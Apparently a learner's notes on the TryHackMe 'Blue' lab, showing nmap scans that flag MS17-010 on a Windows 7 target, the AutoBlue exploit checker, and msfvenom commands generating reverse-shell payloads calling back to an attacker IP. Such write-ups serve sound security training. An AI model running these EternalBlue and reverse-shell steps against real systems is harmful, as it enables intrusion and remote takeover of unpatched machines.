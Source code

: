 kali@kali:~/oscptraining/tryhackme/Blue$ nmap -sV -sC -o nmap 10.10.243.89
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-22 07:42 EDT
Nmap scan report for 10.10.243.89
Host is up (0.32s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:92:82:60:e0:57 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-10-22T06:43:59-05:00
| smb-security-mode: 
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                                                                                                     
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                               
|   date: 2020-10-22T11:43:59                                                                                                                                                                                                              
|_  start_date: 2020-10-22T11:42:06                                                                                                                                                                                                        
                                                                                                                                                                                                                                           
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 159.17 seconds 



kali@kali:~/oscptraining/tryhackme/Blue$ nmap -sV -sC --script vuln 10.10.243.89
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-22 07:49 EDT
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.243.89
Host is up (0.32s latency).
Not shown: 990 closed ports
PORT      STATE    SERVICE            VERSION
37/tcp    filtered time
135/tcp   open     msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open     netbios-ssn        Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open     microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open     ssl/ms-wbt-server?
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)                                                                                                                                                               
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.                                                                                                                          
|                                                                                                                                                                                                                                          
|     Disclosure date: 2012-03-13                                                                                                                                                                                                          
|     References:                                                                                                                                                                                                                          
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020                                                                                                                                                                      
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152                                                                                                                                                                       
|                                                                                                                                                                                                                                          
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability                                                                                                                                                                   
|     State: VULNERABLE                                                                                                                                                                                                                    
|     IDs:  CVE:CVE-2012-0002                                                                                                                                                                                                              
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)                                                                                                                                                                   
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.                                                                                                      
|                                                                                                                                                                                                                                          
|     Disclosure date: 2012-03-13                                                                                                                                                                                                          
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open     msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open     msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open     msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open     msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49159/tcp open     msrpc              Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.asp

https://github.com/3ndG4me/AutoBlue-MS17-010

kali@kali:~/oscptraining/tryhackme/Blue/AutoBlue-MS17-010$ python3 eternal_checker.py 10.10.243.89
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done

can use this exploit against our target

did the prerequisite, went in to get the flag, but ended up with some error during privilege escalation. lost connection and still cant connect back, guess i will revisit this again when im in the mood 

221020 2230hr



┌──(kali㉿kali)-[~/tryhackme/blue/AutoBlue-MS17-010]
└─$ python3 eternal_checker.py 10.10.207.186                                                                                                                                                   1 ⨯ 4 ⚙
[*] Target OS: Windows 7 Professional 7601 Service Pack 1
[!] The target is not patched
=== Testing named pipes ===
[*] Done


┌──(kali㉿kali)-[~/tryhackme/blue/AutoBlue-MS17-010/shellcode]
└─$ ./shell_prep.sh                                                                                                                                                                                4 ⚙
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
10.4.24.92
LPORT you want x64 to listen on:
1234
LPORT you want x86 to listen on:
1235
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.4.24.92 LPORT=1234
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.4.24.92 LPORT=1235
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
